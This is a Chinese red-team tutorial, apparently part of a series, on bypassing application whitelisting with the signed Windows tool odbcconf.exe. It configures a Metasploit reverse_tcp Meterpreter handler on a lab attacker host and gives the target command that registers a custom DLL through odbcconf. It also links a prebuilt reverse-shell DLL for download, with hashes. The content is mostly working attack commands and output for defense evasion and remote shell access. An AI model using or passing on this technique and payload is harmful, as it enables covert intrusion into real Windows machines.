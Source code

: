### 11.12 基于白名单Odbcconf执行payload（十二）

**Odbcconf简介：**

ODBCCONF.exe是一个命令行工具，允许配置ODBC驱动程序和数据源。

**微软官方文档：**

    https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017
    
        

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

    C:\WINDOWS\system32\odbcconf.exe
    C:\WINDOWS\SysWOW64\odbcconf.exe
    
        

Windows 7 默认位置：

    C:\Windows\System32\odbcconf.exe
    C:\Windows\SysWOW64\odbcconf.exe
    
        

攻击机：-
192.168.1.4 Debian

靶机：-
192.168.1.119 Windows 2003-
192.168.1.5 Windows 7

**配置攻击机msf：**-
注：x86 payload

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165812310.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：Windows 2003**

注：文中为了更好的跨Windows 03–Windows 2016，Odbcconf for dll采纯C重新编写。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165828462.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\Micropoor_Odbcconf.dll}
    
        

注：x64 Odbcconf.exe

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165908463.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165914104.png%23pic_center)

附：-
Micropoor\_Odbcconf.dll，已测Windows 2003 x64 Windows 7 x64

注： 功能：reverse\_tcp IP:192.168.1.4 PORT:53。如有安全软件拦截，因Micropoor加入特征。

大小: 73216 字节 修改时间: 2019年1月19日, 21:29:11 MD5:

B31B971F01DE32EC5EC45746BF3DDAD2 SHA1: CF42E4BF5A613992B7A563A522BBEBF1D0F06CCE CRC32: 28A1CE90

    https://drive.google.com/open?id=1j12W7VOhv_-NdnZpFhWLwdt8sQwxdAsk
    
        

* * *